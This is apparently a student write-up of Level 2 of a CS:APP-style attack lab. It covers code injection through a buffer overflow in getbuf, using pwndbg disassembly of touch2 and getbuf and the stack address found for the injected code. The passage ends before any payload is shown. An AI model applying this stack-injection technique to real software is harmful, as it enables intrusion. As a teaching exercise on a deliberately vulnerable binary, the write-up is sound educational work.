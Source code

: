 ## Level 2

In `Level1`, we direct the jump after `getbuf` to another function address. The difference with `Level2` is that we need to inject a piece of code ourselves, and then redirect to it.

Where shall we put the code that needs to be injected? Of course constructing it in the `getbuf` works.

From `attack_lab/part1/cookie.txt`, we get `cookie=0x59b997fa`. Then we can construct the injection code:

```Shell
attack_lab/part1# gdb ctarget
...
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
Reading symbols from ctarget...
pwndbg> disassemble touch2
Dump of assembler code for function touch2:
   0x00000000004017ec <+0>:	sub    rsp,0x8
   0x00000000004017f0 <+4>:	mov    edx,edi
   0x00000000004017f2 <+6>:	mov    DWORD PTR [rip+0x202ce0],0x2        # 0x6044dc <vlevel>
   0x00000000004017fc <+16>:	cmp    edi,DWORD PTR [rip+0x202ce2]        # 0x6044e4 <cookie>
   0x0000000000401802 <+22>:	jne    0x401824 <touch2+56>
   0x0000000000401804 <+24>:	mov    esi,0x4030e8
   0x0000000000401809 <+29>:	mov    edi,0x1
   0x000000000040180e <+34>:	mov    eax,0x0
   0x0000000000401813 <+39>:	call   0x400df0 <__printf_chk@plt>
   0x0000000000401818 <+44>:	mov    edi,0x2
   0x000000000040181d <+49>:	call   0x401c8d <validate>
   0x0000000000401822 <+54>:	jmp    0x401842 <touch2+86>
   0x0000000000401824 <+56>:	mov    esi,0x403110
   0x0000000000401829 <+61>:	mov    edi,0x1
   0x000000000040182e <+66>:	mov    eax,0x0
   0x0000000000401833 <+71>:	call   0x400df0 <__printf_chk@plt>
   0x0000000000401838 <+76>:	mov    edi,0x2
   0x000000000040183d <+81>:	call   0x401d4f <fail>
   0x0000000000401842 <+86>:	mov    edi,0x0
   0x0000000000401847 <+91>:	call   0x400e40 <exit@plt>
End of assembler dump.
pwndbg> disassemble getbuf
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:	sub    rsp,0x28
   0x00000000004017ac <+4>:	mov    rdi,rsp
   0x00000000004017af <+7>:	call   0x401a40 <Gets>
   0x00000000004017b4 <+12>:	mov    eax,0x1
   0x00000000004017b9 <+17>:	add    rsp,0x28
   0x00000000004017bd <+21>:	ret
End of assembler dump.
pwndbg> b getbuf
Breakpoint 1 at 0x4017a8: file buf.c, line 12.
pwndbg> r -q
...
pwndbg> step
...
pwndbg> p /x $rsp
$2 = 0x5561dc78
pwndbg>
```

